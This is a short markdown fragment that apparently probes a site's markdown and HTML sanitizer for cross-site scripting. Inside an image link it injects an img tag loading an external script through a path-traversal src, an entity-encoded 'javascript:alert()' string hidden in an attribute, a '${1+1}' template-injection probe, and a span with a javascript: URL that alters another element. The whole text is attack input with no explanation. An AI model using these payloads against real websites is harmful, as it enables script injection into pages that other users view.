![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img id="meu" src="" tabindex=&#62;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div id="${1+1}">bbbb</div>
<span value="javascript:document.getElementById('user-content-meu').src='123';">aaa</span>

](()
